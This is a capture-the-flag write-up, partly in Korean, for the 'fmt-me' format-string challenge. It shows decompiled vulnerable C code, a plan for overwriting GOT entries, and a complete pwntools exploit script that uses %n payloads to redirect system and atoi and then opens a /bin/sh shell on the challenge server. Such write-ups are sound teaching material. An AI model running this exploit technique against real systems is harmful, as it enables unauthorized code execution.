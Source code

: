 ## [bytebandits 2020] fmt-me writeup

#### [summary] fsb

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



### Analysis

```c
int get_int()
{
  char s; // [rsp+0h] [rbp-20h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fgets(&s, 10, stdin);
  return atoi(&s);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("Choose your name");
  puts("1. Lelouch 2. Saitama 3. Eren");
  printf("Choice: ");
  if ( get_int() == 2 )
  {
    puts("Good job. I'll give you a gift.");
    read(0, &buf, 0x100uLL);
    snprintf(other_buf, 0x100uLL, &buf);
    system("echo 'saitama, the real hero'");
  }
  return 0;
}
```



익스 시나리오

1. system@got <= main + 0x98
2. atoi@got <= system@plt+6
3. atoi@got <= system@plt+6 (4바이트씩 덮음)
4. system@got <= get_int() + 1



### Exploit.py

```python
from pwn import *

EXE = './fmt'
HOST = 'pwn.byteband.it'
PORT = 6969

#context.log_level = 'debug'

if args.REMOTE:
    r = remote(HOST, PORT)
else :
    r = process(EXE)

#gdb.attach(r, 'b* main+222')

r.sendlineafter("Choice: ", '2')
payload = '%{}c%cc'.format(0x040128F - 2) # 0x040128F is main + 0x98
payload += '%8$n'
payload += p64(0x404028)
r.sendlineafter("a gift.\n", payload)

payload = '%8$n%ccc'
payload += p64(0x40405c)
r.sendlineafter("a gift.\n", payload)

payload = '%{}c%c'.format(0x401056 - 1)
payload += '%10$n'
payload += p64(0x404058)
r.sendlineafter("a gift.\n", payload)

payload = '%{}c%c'.format(0x004011A7 - 1)
payload += '%11$n'
payload += p64(0x404028)
r.sendlineafter("a gift.\n", payload)

r.sendline('/bin/sh;')

r.interactive()

```



### Fucking

1. `snprintf()`로 하는거라 주소 값의 0x00 때문에 문자열이 끊김.
2. 처음에는 system@got를 main 시작주소로 덮었는데, atoi@got가 4바이트씩 덮여서 짜증났었음.
3. do_system()에서 movaps instruction error 발생
   인자의 주소가 16 align 하지 않아서 발생한 오류인데, 대충 아무렇게나 뛰어서 생긴 문제.
   => get_int() + 1로 뜀으로써 `push rbp` instruction을 스킵해서 해결하였다.